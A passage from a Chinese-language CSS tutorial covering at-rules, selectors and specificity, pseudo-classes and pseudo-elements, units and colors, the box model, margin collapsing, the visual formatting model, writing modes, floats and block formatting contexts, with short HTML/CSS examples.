/* 闪开闪开，我要打印啦！ */
}
@media \0screen\,screen\9 {
/* IE7,IE8干嘛干嘛嘞... */
}
@media screen\9 {
/* IE7干嘛干嘛嘞... */
}
@keyframes
用来声明 CSS3 animation 动画关键帧
@keyframes fadeIn {
0% {
opacity: 0;
}
100% {
opacity: 1;
}
}
@fontface
fontface 用于定义一种字体，icon font 技术就是利用这个特性来实现的。
@font-face {
font-family: Gentium;
src: url(http://example.com/fonts/Gentium.woff);
}
p { font-family: Gentium, serif; }
其他
- @support support 检查环境的特性，它与 media 比较类似。
- @namespace 用于跟 XML 命名空间配合的一个规则，表示内部的 CSS 选择器全都带上特定命名空间。
- @viewport 用于设置视口的一些特性，不过兼容性目前不是很好，多数时候被 HTML 的 meta 代替。
选择器
css 的普通规则 qualified rule 主要是由选择器和声明区块构成。声明区块又由属性和值构成。
- 普通规则
- 选择器
- 声明列表
- 属性
- 值
- 值的类型
- 函数
选择器
选择器的语法结构如下：
- complex-selector （复杂选择器，一个或多个复合选择器和关系符组成的选择器）
- combinator （关系符，在两个选择器之间，表示两个选择器的关系）
- 空格 （Descendant_combinator 后代选择器，所有不管多少层的所有后代元素）
>（Child_combinator 子选择器，直接子元素）+（Adjacent_sibling_combinator 紧邻兄弟选择器，紧邻第一个元素之后的一个兄弟元素）~（General_sibling_combinator 一般兄弟选择器，第一个元素之后的所有兄弟元素）||（Column_combinator 列选择器）
- compound-selector （复合选择器，没有关系符的多个简单选择器的组合，表示单个元素的多个同时发生的条件）
- type-selectors （元素选择器，就是标签名，例如 div）
- subclass-selectors
- id （id 选择器 #a）
- class （类选择器 .className）
- attribute （属性选择器
a[title]） - pseudo-class （伪类选择器）
- pseudo-element （伪元素）
- combinator （关系符，在两个选择器之间，表示两个选择器的关系）
下面是兄弟选择器的例子：
<style>
div + p {
background-color: blue;
}
.last ~ p {
background-color: green;
}
</style>
<div></div>
<p>111</p> <!-- 111 的 p 标签会是蓝色背景色 -->
<p class="last">222</p>
<p>333</p> <!-- 333 和 444 的 p 标签会是绿色背景色 -->
<p>444</p>
优先级
CSS 标准用一个三元组 (a, b, c) 来构成一个复杂选择器的优先级。
- id 选择器的数目记为 a；
- 伪类选择器和 class 选择器的数目记为 b；
- 伪元素选择器和标签选择器数目记为 c；
- “*” 不影响优先级。
// base 是一个足够大的正整数。
specificity = base * base * a + base * b + c
-
行内属性的优先级永远高于 CSS 规则。
-
属性值后加
!important将高于行内属性。 -
同一优先级的选择器遵循“后面的覆盖前面的”原则。
<div id="my" class="y x">text<div>.x { background-color:lightblue; } .y { background-color:lightgreen; }上面的例子中 .y 在 css 代码的最后面，所以最终起作用的是 .y。
再看一个例子
<div id="my" class="x y z">text<div>.x, .z { background-color:lightblue; } .y { background-color:lightgreen; }逗号分隔的是选择器列表（或者说选择器分组），它的优先级是分开计算的，所以最终优先级仍跟 .y 规则相同
伪类伪元素
伪元素
- 伪元素可以给其他方式无法访问的内容设置样式。例如，::first-letter 和 ::first-line 访问元素内容的第一个字母或者第一行。
- 伪元素可以给不存在的内容设置样式（例如，::before 和 ::after 伪元素提供了访问生成的内容的方法）
::first-line
必须作用于包含块 block container 才能生效。这里的块级不是元素，而是块盒即可。比如 display 为 table-cell 或者 inline-block 的后代流内元素的第一行就不会匹配到 ::first-line。
<!-- div::first-line{color: red;} 生效的是 etcetera -->
<div>
<p style="display: inline-block">
hello<br>
goodbye
</p>
etcetera
</div>
::first-letter
和 ::first-line 类似，但是只取第一个字母。
// 下面两种情况都没有 ::first-line
<div>
<p style="display: inline-block">
hello
<br>
goodbye
</p>
etcetera
</div>
<div>
<br>
this is a test
</div>
::after
用来创建一个伪元素，作为已选中元素的最后一个子元素。通常会配合 content 属性来为该元素添加装饰内容。这个虚拟元素默认是行内元素。
::before
创建一个伪元素，其将成为匹配选中的元素的第一个子元素。常通过 content 属性来为一个元素添加修饰性的内容。此元素默认为行内元素。
伪类
伪类是简单选择器，它允许基于文档树之外的信息进行选择，或者使用其他简单的选择器可能难以表达或无法表达这些信息。
- 结构伪类
:nth-child(an + b): 根据位置匹配兄弟元素，n 为自然数，a 和 b 都必须为整数，并且元素的第一个子元素的下标为 1。
<!-- 1, 5, 7 生效 -->
<style>
div p:nth-child(2n+1) {color: red}
div::before{content: 'test'}
</style>
<div>
<p>1</p>
<span>2</span>
<span>3</span>
<p>4</p>
<p>5</p>
<p>6</p>
<p>7</p>
</div>
-
:nth-last-child(): 和 :nth-child() 类似，不同的是从末尾开始计数。 -
:first-child: 匹配一组兄弟元素中的第一个，比如 div > p:first-child 表示匹配 div 的 p 子元素中的第一个，要同时满足 p 和第一个。需要注意的是 div > p:first-child ， div p:first-child 和 div :first-child（有空格）的不同。
<!-- 1 和 2 都生效 -->
<style>
div :first-child {
color: red;
}
</style>
<div>
<div>1</div>
<div>
<div>2</div>
</div>
</div>
:last-child: 匹配一组兄弟元素中的最后一个。
- 逻辑伪类
:not(): 该伪类函数用来匹配不符合一组选择器的元素。
/* 既不是 <div> 也不是 <span> 的元素 */
body :not(div):not(span) {
font-weight: bold;
}
- 状态伪类
-
:hover: 适用于用户使用指示设备虚指一个元素（鼠标指针虚指在某个元素但没有激活）的情况。这个样式会被任何与链接相关的伪类重写，像 :link, :visited, 和 :active 等。为了确保生效，:hover规则需要放在 :link 和 :visited 规则之后，但是在 :active 规则之前，按照 LVHA 的循顺序声明 :link－:visited－:hover－:active。 -
:active: 匹配被用户激活的元素。当用鼠标交互时，它代表的是用户按下按键和松开按键之间的时间。 -
:focus: 示获得焦点的元素（如表单输入）。当用户点击或触摸元素或通过键盘的 tab 键选择它时会被触发
- 链接伪类
-
:link: 选中元素当中的链接。它将会选中所有尚未访问的链接 -
:visited: 匹配用户已访问过的链接。
- 表单伪类
-
:enabled: 表示任何被启用的（enabled）元素。如果一个元素能够被激活（如选择、点击或接受文本输入），或者能够获取焦点，则该元素是启用的。元素也有一个禁用的状态（disabled state），在被禁用时，元素不能被激活或获取焦点。 -
:disabled: 表示任何被禁用的元素。如果一个元素不能被激活（如选择、点击或接受文本输入）或获取焦点，则该元素处于被禁用状态。元素还有一个启用状态（enabled state），在启用状态下，元素可以被激活或获取焦点。 -
:read-only: 表示元素不可被用户编辑的状态（如锁定的文本输入框）。 -
:default: 表示一组相关元素中的默认表单元素，可以理解为给默认选项一个特殊状态，告诉用户哪个选项是默认的。该选择器可以在<button>,<input type="checkbox">,<input type="radio">, 以及<option>上使用。 -
:checked: 表示任何处于选中状态的 radio, checkbox 或 select 元素中的 option HTML 元素。用户通过勾选/选中元素或取消勾选/取消选中，来改变该元素的 :checked 状态。 -
:required: 任意设置了 required 属性的<input>，<select>, 或<textarea>元素。 这个伪类对于高亮显示在提交表单之前必须具有有效数据的字段非常有用。
值与单位
数字长度和百分比
数字
css 中的值使用数字的时候，分以下四种：
- 整数 integer 例如 10
- 数字 number 例如 10.5
- 尺寸 dimention 例如 10px
- 百分比 例如 50%
长度
绝对长度
| 单位 | 名称 | 等价换算 |
|---|---|---|
| cm | 厘米 | 1cm = 96px/2.54 |
| mm | 毫米 | 1mm = 1/10th of 1cm |
| Q | 四分之一毫米 | 1Q = 1/40th of 1cm |
| in | 英寸 | 1in = 2.54cm = 96px |
| pc | 十二点活字 | 1pc = 1/16th of 1in |
| pt | 点 | 1pt = 1/72th of 1in |
| px | 像素 | 1px = 1/96th of 1in |
1in = 2.54cm = 25.4 mm = 101.6q = 72pt = 6pc = 96px
相对长度
| 单位 | 相对于 |
|---|---|
| em | 在 font-size 中使用是相对于父元素的字体大小，在其他属性中使用是相对于自身的字体大小，如 width |
| ex | 字符 x 的高度 |
| ch | 数字 0 的宽度 |
| rem | 根元素的字体大小 |
| lh | 元素的 line-height |
| vw | 视窗宽度的1% |
| vh | 视窗高度的1% |
| vmin | 视窗较小尺寸的1% |
| vmax | 视图大尺寸的1% |
百分比
如果将元素的字体大小设置为百分比，那么它将是元素父元素字体大小的百分比。如果使用百分比作为宽度值，那么它将是父值宽度的百分比。
calc()
calc() 此 CSS 函数允许在声明 CSS 属性值时执行一些计算。
div {
width: calc(100% - 80px);
}
颜色
- 颜色关键字
- transparent 关键字
- currentColor 关键字
- RGB RGBA 颜色
- HSL HSLA 颜色
颜色关键字
用英文单词表示的颜色，例如 white black。
transparent 关键字
表示一个完全透明的颜色，即该颜色看上去将是背景色。从技术上说，它是带有 alpha 通道为最小值的黑色，是 rgba(0,0,0,0) 的简写。
补充：css 画三角形
div {
border-top-color: #ffc107;
border-right-color: #00bcd4;
border-bottom-color: #e26b6b;
border-left-color: #cc7cda;
border-width: 50px;
border-style: solid;
width: 0px;
}
这样画出来如下：

/*等腰三角形*/
div {
border-left: 30px solid #cc7cda;
border-top: 15px solid transparent;
border-bottom: 15px solid transparent;
width: 0px;
}

div {
border-left: 30px solid #cc7cda;
border-bottom: 30px solid transparent;
width: 0px;
}

currentColor 关键字
取当前元素继承父级元素的文本颜色值或声明的文本颜色值，即 computed 后的 color 值。
/*该元素的边框颜色会是 red*/
.btn {
color: red;
border: 1px solid currentColor;
}
RGB RGBA 颜色
R(red)-G(green)-B(blue)-A(alpha) 组成的色彩空间。在 CSS 中，它有两种表示形式：
- 十六进制符号；
RGB 中的每种颜色的值范围是 00~ff，值越大表示颜色越深。所以一个颜色正常是 6 个十六进制字符加上 # 组成，比如红色就是 #ff0000。
2 个十六进制表示一个颜色，如果这 2 个字符相同，还可以缩减成只写 1 个，比如，红色 #f00
- 函数符；
当 RGB 用函数表示的时候，每个值的范围是 0~255 或者 0%~100%，所以红色是 rgb(255, 0, 0)， 或者 rgb(100%, 0, 0)。
如果需要使用函数来表示带不透明度的颜色值，值的范围是 0~1 及其之间的小数或者 0%~100%，比如带 67% 不透明度的红色是 rgba(255, 0, 0, 0.67) 或者 rgba(100%, 0%, 0%, 67%)
HSL HSLA 颜色
由色相(hue)-饱和度(saturation)-亮度(lightness)-不透明度组成的颜色体系。
- 色相（H）是色彩的基本属性，值范围是 0 ~ 360 或者 0deg ~ 360deg， 0 (或 360) 为红色, 120 为绿色, 240 为蓝色；
- 饱和度（S）是指色彩的纯度，越高色彩越纯，低则逐渐变灰，取 0~100% 的数值；0% 为灰色， 100% 全色；
- 亮度（L），取 0~100%，0% 为暗，100% 为白；
- 不透明度（A），取 0~100%，或者 0~1 及之间的小数；
设置不透明度为 67% 的红色的 color 的写法：
button {
color: #ff0000aa;
color: #f00a;
color: rgba(255, 0, 0, 0.67);
color: rgb(100% 0% 0% / 67%);
color: hsla(0, 100%, 50%, 67%);
color: hsl(0deg 100% 50% / 67%);
}
block 和 inline
block
div p table h1 h2 h3 h4 h5 h6 ol ul li dl dd form hr
article header footer section
inline
span img a b i strong label
video audio canvas
inline-block
button input select textarea
block 元素和 inline 元素区别
- 默认情况下，行内元素不会以新的一行开始，而块级元素会新起一行
- 块级元素可以设置 width/height 属性，注意：块级元素即使设置了宽度，仍然是独占一行的。而行内元素设置 width/height 无效。（除了某些可替换元素，例如 img）
- 行内元素的 padding/margin 水平方向有效，垂直方向无效（对元素自己来说垂直方向能设置成功，，但是对其他元素的布局不产生影响）。块元素没这个限制。
- 块级元素可以包含行内元素和块级元素。行内元素不能包含块级元素
- img 并不是 inline-block 元素，它默认是 inline 元素。它可以设置宽高的原因是因为它是特殊的替换元素。
盒模型
定义
-
每个元素都可以被视为是一个盒模型，它由 4 部分组成：content（width height），padding（内边距），border（边框），margin（外边距）。
-
其中 content padding border 这三个合起来是 css 中 background 属性作用的区域，也就是说对元素设置 background 的样式后，作用区域在这三者中。
-
一个盒子的实际占用页面的大小是 content + padding + border
box-sizing
box-sizing 用来定义 user-agent 如何计算一个元素盒模型的大小。
| 属性值 | 含义 |
|---|---|
| content-box | 默认值。 width 与 height 只包括内容的宽和高 |
| border-box | width 和 height 属性包括内容，内边距和边框，不包括外边距。 |
外边距折叠
不同的元素盒子之间上下 margin 有时候会合并为单个 margin，大小为其中的最大值。有三种情况会发生外边距折叠：
- 相邻元素的上下 margin
<style>
* {
margin: 0;
}
div p:nth-child(1) {
margin-bottom: 13px;
}
div p:nth-child(2) {
margin-top: 87px;
}
</style>
<div>
<p>下边界范围会...</p>
<p>...会跟这个元素的上边界范围重叠。</p>
</div>
- 没有内容将父元素和后代元素分开
<style type="text/css">
* {
margin: 0;
}
section {
margin-top: 13px;
margin-bottom: 87px;
}
header {
margin-top: 87px;
}
footer {
margin-bottom: 13px;
}
</style>
<section>
<header>上边界重叠 87</header>
<main></main>
<footer>下边界重叠 87 不能再高了</footer>
</section>
可以看到父元素 section 的 margin-top 和 其后代元素 header 的 margin-top 发生了重叠，并且 header 的 margin-top 溢出到了 section 外面，同样，后代元素 footer 的 margin-bottom 也溢出到了 section 的下面。
有几个方法可以解决这个问题： 为父元素 section 设置 边框 border，内边距 padding，行内内容，或创建块级格式上下文或清除浮动。
- 空的块级元素
<style>
* {
margin: 0;
}
div {
margin-top: 13px;
margin-bottom: 87px;
}
</style>
<p>上边界范围是 87 ...</p>
<div></div>
<p>... 上边界范围是 87</p>
解决办法：为这个没有内容的元素设置 边框 border、内边距 padding、高度 height、最小高度 min-height 、最大高度 max-height 、内容设定为 inline 或是加上 clear-fix
视觉格式模型
简介
在视觉格式化模型（visual formatting model）中，文档树中的每一个元素会根据盒模型去生成零个或多个盒子。这些盒子的布局被以下因素所控制：
- 盒子的尺寸和类型
- 定位方案（正常流，浮动，绝对定位）
- 文档树中元素的关系
- 其他因素（视口大小，图片固有尺寸等等）
视口（viewport）
连续媒体（网页就是一种连续媒体）的用户代理（用户代理就是浏览器）通常为用户提供一个视口（屏幕上的窗口或其他查看区域），用户通过它查阅文档。用户代理可能会在调整视口大小时更改文档的布局。
当视口小于呈现文档的画布区域时，用户代理应提供滚动机制。
每个画布最多有一个视口，但用户代理可能会渲染到多个画布（即，提供同一文档的不同视图）。
包含块（containing block）
在 CSS 2 中，许多盒子的位置和大小是相对于称为 包含块 的矩形框的边缘计算的。一般情况下，文档中的盒子是它的后代元素的包含块，换一个说法，这个盒子为它的后代元素生成了一个 包含块。 “盒子的包含块”是指这个盒子所在的包含块，而不是这个盒子生成的包含块。
每个盒子都有一个相对于它的包含块的位置，但它不受这个包含块的限制；它可能会溢出。
控制盒子生成（Controlling box generation）
下面介绍盒子的种类。
块级元素和块盒子（Block-level elements and block boxes）
块级元素（Block-level elements）是源文档中在视觉上被格式化为块（例如，段落）的那些元素。display 属性的以下值使元素成为块级：block、list-item 和 table。
块级盒子（Block-level boxes）是参与块格式化上下文（block formatting context）的盒子。每个块级元素生成一个主要的块级盒子，其中包含后代盒子和生成的内容，这个主要的块级盒子也是任何定位方案中涉及的盒子。
一些块级元素可能会生成主要块级盒子之外的盒子：例如 list-item 元素。这些附加的盒子相对于主要块级盒子放置。
除了表格盒子和替换元素以外，块级盒子（block-level box）也是块容器盒子（block container box）。一个块容器盒子要么只包含块级盒子，要么创建一个内联格式化上下文（inline formatting context）只包含内联级盒子。并非所有块容器盒子都是块级盒子：未替换的内联块和未替换的表格单元格都是块容器盒子但是不是块级盒子。如果一个盒子既是块容器盒子，也是块级盒子，那么它被称作，块盒子（block box）。
块级盒子（block-level box），块容器盒子（block container box）和 块盒子（block box）有时在明确的情况下缩写为“块”。
匿名块盒子（Anonymous block boxes）
<DIV>
Some text
<P>More text
</DIV>
（假设 div 和 p 都是 display: 'block'）。div 同时拥有内联内容和块内容，为了更容易定义格式，我们假设在 “Some text” 周围有一个匿名块盒子。

换句话来说：如果一个块容器盒子（上例中 div 会生成一个块容器盒子）的内部有一个块级盒子（上例中的 p 元素），那么我们会强迫这个块容器盒子中只能存在块级盒子。
当一个内联盒子包含了一个 在流内（in-flow，与之对应的是 Out of Flow，脱离流）的块级盒子，那么这个内联盒子（以及和它在同一个 行盒子 （line box） 的内联祖先）会在块级盒子（以及任何连续的或者仅由于可折叠的空白分隔的块级兄弟盒子，以及其他脱离流的元素）的周围被破坏掉，然后这个内联盒子被分裂成两个盒子（即使有一侧是空的没有内容），被分裂的两个盒子在块级盒子的两侧。中断之前和中断之后的行盒子都被包含在匿名块盒中，并且块级盒子会变成这些匿名盒子的兄弟盒子。当这样一个内联盒子收到相对定位的影响时，任何最终的转变也会影响内联盒子中的块级盒子。
p { display: inline }
span { display: block }
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<HEAD>
<TITLE>Anonymous text interrupted by a block</TITLE>
</HEAD>
<BODY>
<P>
This is anonymous text before the SPAN.
<SPAN>This is the content of SPAN.</SPAN>
This is anonymous text after the SPAN.
</P>
</BODY>
P 元素包含一个匿名文本块 (C1)，后跟一个块级元素，然后是另一个匿名文本块 (C2)。生成的盒子将是一个代表 BODY 的块盒子，包含一个围绕 C1 的匿名块盒子、SPAN 块盒子和另一个围绕 C2 的匿名块盒子。
匿名盒子的属性继承自封闭的非匿名盒子（例如，在小节匿名块盒子示例中，DIV 的属性）。非继承属性有它们的初始值。比如匿名盒的字体是继承自 DIV，但是边距为 0。
在导致生成匿名块盒的元素上设置的属性仍然适用于匿名盒子和该元素的内容。例如，如果在上面的示例中在 P 元素上设置了边框，则边框将围绕 C1（在行尾打开）和 C2（在行开头打开）绘制。
一些用户代理已经以其他方式在内联包含块上实现了边界，例如，通过将这些嵌套块包裹在“匿名行盒”内，从而在这些盒子周围绘制内联边界。由于 CSS1 和 CSS2 (1998) 没有定义这个行为，CSS1-only 和 CSS2 (1998)-only 用户代理可以实现这个替代模型，并且仍然声称符合 CSS 2 的这一部分。这不适用于这个规范发布之后开发好的用户代理。
在解析引用它的百分比值时，匿名块盒将被忽略：改为使用最近的非匿名祖先盒子。例如，如果上面 DIV 内匿名块盒的子节点需要知道其包含块的高度来解析百分比高度，那么它将使用 DIV 形成的包含块的高度，而不是匿名块盒的高度。
内联级别元素和内联盒（Inline-level elements and inline boxes）
内联级别元素（Inline-level element）是不产生新的内容块的元素。内容按行分布（例如，段落中强调的文本片段、内联图像等）。display 属性的以下值使元素成为内联级别：inline、inline-table 和 inline-block。
内联级元素生成内联盒子，它们是参与内联格式上下文（inline formatting context）的盒子。
一个内联盒子是一种既是内联级别的，并且其内容参与其包含的内联格式上下文。display 为 inline 的非替换元素生成内联盒子。不是内联盒子的内联级别盒子（例如替换的内联级元素、inline-block 元素和 inline-table 元素）被称为原子内联级盒子（atomic inline-level box）因为它们作为单个不透明盒子参与其内联格式化上下文。
匿名内联盒子（Anonymous inline boxes）
任何直接包含在块容器元素内（而不是内联元素内）的文本都必须被视为匿名内联元素。
<p>
Some <em>emphasized</em> text
</p>
上例中 p 生成一个块盒子，其内部有几个行内盒子。“强调”的盒子是由内联元素 em 生成的内联盒子，但其他盒子（“Some” 和 “text”）是由块级元素 p 生成的内联盒子。后者称为匿名内联盒，因为它们没有关联的内联级元素。
这种匿名内联盒从它们的块父亲盒子继承可继承的属性。非继承属性有它们的初始值。在示例中，匿名内联盒的颜色是从 P 继承的，但背景是透明的。
空白内容会根据 white-space 属性被折叠掉而不会生成任何匿名内联盒。
如果从上下文中明确表示匿名盒子的类型，那么匿名内联盒和匿名块盒在本规范中都简称为匿名盒。
格式化表格时会出现更多类型的匿名盒。
display 属性
display 属性可以取的值：
block | inline | inline-block | list-item | table | inline-table | table-row-group | table-header-group | table-footer-group | table-row | table-column-group | table-column | table-cell | table-caption | none | inherit
| 值 | 描述 |
|---|---|
| block | 使元素生成块盒 |
| inline | 使元素生成一个或多个内联盒 |
| inline-block | 使元素生成一个内联级别块容器。inline-block 内部被格式化为块盒，而这个元素本身被格式化为原子内联级盒子 |
| list-item | 使元素生成主要块盒和一个标记盒。例如 li 元素 |
| none | 不生成盒子 |
| table inline-table table-row-group table-header-group table-footer-group table-row table-column-group table-column table-cell table-caption | 使元素的行为类似表格元素 |
定位方案
在 CSS 2 中，一个盒子可以根据三种定位方案进行布局：
正常流（Normal flow）。在 CSS 2 中，正常流包括块级盒子的块格式、内联级别盒子的内联格式以及块级和内联级的相对定位。浮动。在浮动模型中，首先按照正常流布置一个盒子，然后从流中取出它并尽可能地向左或向右移动。内容可能会沿着浮动的一侧流动。绝对定位。在绝对定位模型中，一个盒子被完全从正常流中移除（它对后面的兄弟没有影响）并分配一个相对于包含块的位置。
如果一个元素 浮动了，或者绝对定位了，或者是根元素，那么这个元素被称为 脱离流（out-of-flow）。没有脱离流的元素被成为 在流内（in-flow）。一个元素 A 的流就是指元素 A 本身和所有在流内元素的集合，其最近的脱离流的祖先就是 A。
position 属性
position 有以下取值：
static | relative | absolute | fixed | inherit
| 值 | 描述 |
|---|---|
| static | 普通盒子，按照正常流布局。 |
| relative | 盒子的位置是按照正常流计算的。盒子相对于它的正常位置偏移。当一个盒子 B 使用相对定位发生偏移时，则它后面的其它盒子的位置被计算为好像 B 没有发生偏移。 |
| absolute | 盒子的位置由 top right bottom left 的值来决定，这四个属性指定的偏移基于盒子的包含块。绝对定位的元素会脱离正常流。这意味着它们对之后的兄弟元素的布局没有影响。此外，虽然绝对定位盒子有 margin，但是不会和其他 margin 发生折叠。 |
| fixed | 相对于屏幕视口的位置来指定元素位置 |
盒子偏移量 top bottom left right
一个元素如果它的 position 属性的值不是 static。则会根据这四个属性进行布局：
- top 用于指定绝对定位的盒子的上外边距边沿在下方距离盒子的
包含块的上边沿的偏移，对于相对定位盒子，偏移量是相对于盒子本身的顶部边沿。 - right 指定绝对定位的盒子的右外边距边沿在左方距离盒子的
包含块的右边沿的偏移，对于相对定位盒子，偏移量是相对于盒子本身的右边沿。 - bottom 指定盒子的下外边距边沿在上方距离盒子的
包含块的下边沿的偏移，对于相对定位盒子，偏移量相对于盒子本身的下边沿。 - left 指定盒子的左外边距边沿在右方距离盒子的
包含块的左边沿的偏移，对于相对定位盒子，偏移量相对于盒子本身的左边沿。
正常流（Normal flow）
正常流中的盒子属于格式化上下文, 可以是块或内联，但不能同时进行。块级盒子参与块格式化上下文。内联级盒子参与内联格式上下文。
块格式上下文（Block formatting contexts）
浮动、绝对定位元素、不是块盒子的块容器（例如inline-blocks, table-cells, and table-captions），以及设置了 overflow 属性值不为 visible 的块盒子（除非该值已传播到视口）为其内容建立新的块格式化上下文。
在块格式化上下文中，盒子从包含块的顶部开始一个接一个地垂直排列。两个兄弟盒子之间的垂直距离由 margin 属性决定。块格式上下文中相邻块级盒子之间的垂直边距会发生折叠。
在块格式上下文中，每个盒子的左外边缘接触包含块的左边缘（对于从右到左的格式化，右边缘接触）。即使在存在浮动的情况下也是如此（尽管盒子的行盒可能会因浮动而缩小），除非盒子建立了新的块格式化上下文（在这种情况下，盒子本身可能会因浮动而变窄）。
内联格式上下文（Inline formatting contexts）
在内联格式化上下文中，盒子从包含块的顶部开始一个接一个地水平排列。这些盒子之间的布局位置遵循水平方向 margin、border 和 padding。这些盒子可以以不同的方式垂直对齐：它们的底部或顶部可以对齐，或者它们内文本的基线可以对齐。包含形成一条线的多个盒子的矩形区域称为行盒（line box）。
行盒的宽度由包含块和浮动的存在决定。行盒的高度由行高计算一节中给出的规则决定。
一个行盒对于它包含的所有盒子来说总是足够高的。但是，它可能比它包含的最高的盒子还要高（例如，如果盒子对齐以便基线对齐）。当盒子 B 的高度小于包含它的行盒的高度时，B 在行盒内的垂直对齐方式由 vertical-align 属性决定。当多个内联级盒子无法水平放置在单个行盒中时，它们会分布在两个或多个垂直堆叠的行盒中。因此，一个段落是垂直方向的多个行盒。行盒堆叠时没有垂直分隔（除非在其他地方指定）并且它们从不重叠。
书写模式
书写模式会影响文本在元素中的排列方向，最常用的主要有 3 个 css 属性。
先解释一下概念：
- block flow direction（块流方向）：块级盒子（block-level boxes）堆叠的方向，或者行盒（line boxes）在块容器中堆叠的方向。
- inline base direction（内联基础方向）：一行中的内容的主要方向，还定义了哪一端是行的开始和结束。direction 和 unicode-bidi 属性规定了一个盒子的 inline base direction，还规定了任意文本内容的继承来的方向，决定了一行中的内联级别内容的顺序。
- horizontal writing mode（水平书写模式）：文本是水平的行。例如，向下的块流或者向上的块流。
- vertical writing mode（垂直书写模式）：文本是垂直的行。例如，向左或向右的块流。
- typographic mode （排版印刷模式）：决定是否使用排版印刷时的惯例来指定对垂直脚本使用垂直流（vertical typographic mode 垂直排版印刷模式）或者排版印刷惯例的水平书写模式（horizontal typographic mode 水平排版印刷模式）。这个概念使垂直排版有别于旋转的水平排版。
writing-mode
| 值 | 含义 |
|---|---|
| horizontal-tb | 从上到下的块流方向。（Top-to-bottom block flow direction） 书写模式（writing mode）和排版模式（typographic mode）都是水平的。 |
| vertical-rl | 从右到左的块流方向。（Right-to-left block flow direction）书写模式（writing mode）和排版模式（typographic mode）都是垂直的。 |
| vertical-lr | 从左到右的块流方向。（Left-to-right block flow direction）书写模式（writing mode）和排版模式（typographic mode）都是垂直的。 |
| sideways-rl | 从右到左的块流方向。（Left-to-right block flow direction） 书写模式（writing mode）是垂直的，排版模式（typographic mode）是水平的。 |
| sideways-lr | 从右到左的块流方向。（Left-to-right block flow direction） 书写模式（writing mode）是垂直的，排版模式（typographic mode）是水平的。 |
direction
| 值 | 含义 |
|---|---|
| ltr | 设置 inline base direction（内联基础方向）为从行左至行右 |
| rtl | 设置 inline base direction（内联基础方向）为从行右至行左 |
text-orientation
指定文本在一行中的方向。目前的值只会对垂直的排版模式有影响，对水平排版模式没有影响。
| 值 | 含义 |
|---|---|
| mixed | 默认值。顺时针旋转水平书写的字符90°，将垂直书写的文字自然布局。 |
| upright | 将水平书写的字符自然布局（直排），包括垂直书写的文字。注意这个关键字会导致所有字符被视为从左到右，也就是 direction 被强制设为 ltr。 |
| sideways | 所有字符被布局为与水平方式一样，但是整行文本被顺时针旋转90°。 |
float 和 BFC
概念
浮动让一个元素应沿其容器的左侧或右侧放置，允许文本和行内元素环绕它。该元素从网页的正常流中移除，尽管仍然保持部分的流动性。
当一个元素没有设置高度，子元素浮动会脱离正常流，造成父级的高度无法包住子元素。
根据 css规范 原文中的描述：Only children in the normal flow are taken into account (i.e., floating boxes and absolutely positioned boxes are ignored, and relatively positioned boxes are considered without their offset). Note that the child box may be an anonymous block box.
只有正常流中的子元素才会被作为 height 的一部分计算。（浮动和绝对定位的子元素盒子会被忽略，并且相对定位的盒子的偏移会被忽略。）
<style>
.box {
border: 1px solid #000;
}
.left {
height: 50px;
width: 50px;
float: left;
border: 1px solid rgb(255, 0, 0);
}
.right {
height: 50px;
width: 50px;
float: right;
border: 1px solid rgb(255, 0, 0);
}
</style>
<div class="box">
<div class="left">222</div>
<div class="right">111</div>
</div>

想要解决脱离文档流造成父级包不住浮动子元素的问题，就需要清除浮动。
清除浮动
- 让父级也浮动。（触发 BFC）
.box {
border: 1px solid #000;
float: left;
}
- 让父级绝对定位（触发 BFC）
.box {
border: 1px solid #000;
position: absolute;
}
- 父级设置 overflow: hidden;（触发 BFC）
.box {
border: 1px solid #000;
overflow: hidden;
}
- 设置父元素 display: flow-root;（触发 BFC）
.box {
border: 1px solid #000;
display: flow-root;
}
- 父级添加伪元素设置 clear
.box::after {
content: '';
clear: both;
display: block;
}
clear 属性让添加的这个伪元素的无论哪个方向（both 左边和右边）都不会出现浮动元素，所以伪元素只能到最下方另起一个新行。并且必须设置伪元素为 display: block; 因为伪元素默认为 inline 元素。为什么必须要 display: block？因为根据 css规范 Note. This property applied to all elements in CSS1. Implementations may therefore have supported this property on all elements. In CSS2 (1998) and CSS 2 the clear property only applies to block-level elements. Therefore authors should only use this property on block-level elements. clear 属性只作用于块级元素。
BFC
块格式化上下文（Block Formatting Context，BFC） 是 Web 页面的可视 CSS 渲染的一部分，是块盒子的布局过程发生的区域，也是浮动元素与其他元素交互的区域。
- 生成 BFC 的元素的子元素会一个接一个的放置。
- 垂直方向上他们的起点是一个包含块的顶部，两个相邻子元素之间的垂直距离取决于元素的 margin 特性。在 BFC 中相邻的块级元素的外边距会折叠 (Mastering margin collapsing)。
- 生成 BFC 元素的子元素中，每一个子元素左外边距与包含块的左边界相接触（对于从右到左的格式化，右外边距接触右边界），即使浮动元素也是如此（尽管子元素的内容区域会由于浮动而压缩），除非这个子元素也创建了一个新的 BFC（如它自身也是一个浮动元素）。
以下方式会创建 BFC：
- 根元素（
<html>） - 浮动元素（元素的 float 不是 none）
- 绝对定位元素（元素的 position 为 absolute 或 fixed）
- overflow 计算值(Computed)不为 visible 的块元素
- display 值为 flow-root 的元素
- 行内块元素（元素的 display 为 inline-block）
- 表格单元格（元素的 display 为 table-cell，HTML表格单元格默认为该值）
- 表格标题（元素的 display 为 table-caption，HTML表格标题默认为该值）
- 匿名表格单元格元素（元素的 display 为 table、table-row、 table-row-group、table-header-group、table-footer-group（分别是HTML table、row、tbody、thead、tfoot 的默认属性）或 inline-table）
- contain 值为 layout、content 或 paint 的元素
- 弹性元素（display 为 flex 或 inline-flex 元素的直接子元素）
- 网格元素（display 为 grid 或 inline-grid 元素的直接子元素）
- 多列容器（元素的 column-count 或 column-width (en-US) 不为 auto，包括 column-count 为 1）
- column-span 为 all 的元素始终会创建一个新的BFC，即使该元素没有包裹在一个多列容器中
其中最常见的就是：
- 浮动元素（元素的 float 不是 none）
- 绝对定位元素（元素的 position 为 absolute 或 fixed）
- overflow 计算值(Computed)不为 visible 的块元素
- display 值为 flow-root 的元素
- 行内块元素（元素的 display 为 inline-block）
BFC 特点
- 内部的盒子会在垂直方向上一个接一个的放置（这里应该指块盒子）
- 内部的盒子垂直方向上的距离由 margin 决定。（完整的说法是：属于同一个 BFC 的两个相邻盒子的 margin 会发生折叠，不同 BFC 不会发生折叠。）
- 每个元素的左外边距与包含块的左边界相接触（从左向右），即使浮动元素也是如此。（这说明 BFC 中子元素不会超出他的包含块，而 position 为 absolute 的元素可以超出他的包含块边界）
- BFC 的区域不会与 float 的元素区域重叠
